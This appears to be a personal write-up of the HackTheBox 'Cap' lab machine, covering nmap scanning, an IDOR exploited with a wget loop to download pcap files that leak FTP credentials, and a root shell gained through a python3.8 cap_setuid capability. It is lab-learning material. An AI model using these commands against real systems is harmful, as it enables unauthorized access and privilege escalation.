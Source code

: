 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Cap](https://app.hackthebox.com/machines/Cap)

## Enumeration

### `nmap`

#### TCP

- Target: `cap.htb 10.10.10.245`
- Command: `nmap -v --reason -Pn -T4 -p- --open -sCV -oA nmap_tcp-cap.htb cap.htb`

##### 21/tcp-ftp `vsftpd` `3.0.3`

##### 80/tcp-http `gunicorn`

```text
  GetRequest:
    HTTP/1.0 200 OK
    Server: gunicorn
...
```

### Manual Enumeration

The server is hosting a security dashboard with functionality to download `pcap` files, view IP configuration, and display `netstat` output.

![](_/htb-cap-20250418-1.png)

## Remote Code Execution

I spent a long time trying to exploit the capture mechanism by sending custom packets and probing for hidden `GET` parameters when it was actually just a simple IDOR exposing a previously created `pcap`. Thanks, [0xdf](https://0xdf.gitlab.io/2021/10/02/htb-cap.html).

```console
$ for i in {0..50} ; do wget 10.10.10.245/download/${i} -O ${i}.pcap 2>/dev/null || rm ${i}.pcap && ls -l ${i}.pcap 2>/dev/null; done
-rw-r--r-- 1 e e 9935 May 15  2021 0.pcap
^ RC=2

$ strings 0.pcap
...
220 (vsFTPd 3.0.3)
USER nathan
(su@
Jsv@
331 Please specify the password.
PASS Buck3...
(sw@
?sx@
230 Login successful.
...
```

## Privilege Escalation

From LinPeas:

```console
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

```console
nathan@cap:/dev/shm$ /usr/bin/python3.8 -c 'import os,pty; os.setuid(0); pty.spawn("/bin/bash")'
root@cap:/dev/shm# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

## Notes

Look for the simple vectors first before burning time on more complicated ones.
